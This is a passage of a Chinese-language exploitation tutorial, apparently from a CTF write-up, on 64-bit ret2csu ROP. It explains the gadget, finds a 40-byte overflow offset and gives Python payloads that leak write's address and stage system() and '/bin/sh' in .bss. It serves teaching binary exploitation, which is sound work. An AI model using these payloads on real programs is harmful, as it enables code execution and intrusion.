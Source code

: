 ```
.text:00000000004008E0                 mov     rdx, r13
.text:00000000004008E3                 mov     rsi, r14
.text:00000000004008E6                 mov     edi, r15d
.text:00000000004008E9                 call    qword ptr [r12+rbx*8]
```

我们可以看到利用0x4008E0处的代码我们可以控制rbx,rbp,r12,r13,r14和r15的值，随后利用0x4008E6处的代码我们将r15的值赋值给rdx,  r14的值赋值给rsi,r13的值赋值给edi，随后就会调用call qword ptr  [r12+rbx*8]。这时候我们只要再将rbx的值赋值为0，再通过精心构造栈上的数据，我们就可以控制pc去调用我们想要调用的函数了（比如说write函数）。执行完`call qword ptr [r12+rbx*8]`之后，程序会对rbx+=1，然后对比rbp和rbx的值，如果相等就会继续向下执行并ret到我们想要继续执行的地址。所以为了让rbp和rbx的值相等，我们可以将rbp的值设置为1，因为之前已经将rbx的值设置为0了。大概思路就是这样，我们下来构造ROP链。

64位栈中的数据分布

![栈中布局分布图](https://sp4n9x.github.io/resources/2018/2018-05-11-00.png)

简单的检查一下溢出点

```shell
syc@ubuntu:~/tmp$ cat payload 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
syc@ubuntu:~/tmp$ python pattern.py offset 0x3562413462413362
hex pattern decoded as: b3Ab4Ab5
40
```

溢出点为40.

我们先构造payload1，利用write()输出write在内存中的地址。注意我们的gadget是`call qword ptr [r12+rbx*8]`，所以我们应该使用write.got的地址而不是write.plt的地址。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数为止。

```python
#rdi=edi=r15, rsi=r14, rdx=r13
#write(rdi=1,rsi=write_got,rdx=8)
payload1 = "\x00"*40
                #pop        junk      rbx      rbp         r12           r13         r14           r15          ret
payload1 += p64(0x4008FA) + p64(0) + p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) + p64(0x4008E0)
payload1 += "\x00"*56  #0x38，因为申请了8个字的内存空间
payload1 += p64(main_addr)#再次返回主函数重复利用
```

当我们exp在收到`write()`在内存中的地址后，就可以计算出`system()`在`内存中的地址`了。接着我们构造`payload2`，利用`read()`将`system()的地址`以及`“/bin/sh”`读入到`.bss段`内存中。

```python
#rdi=edi=r15, rsi=r14, rdx=r13
#read(rdi=0,rsi=bss_addr,rdx=16)
payload2 = "\x00"*40
                #pop        junk      rbx      rbp         r12           r13         r14           r15          ret
payload2 += p64(0x4008FA) + p64(0) + p64(0) + p64(1) + p64(read_got) + p64(16) + p64(bss_addr) + p64(0) + p64(0x4008E0)
payload2 += "\x00"*56
payload2 += p64(main_addr)
```
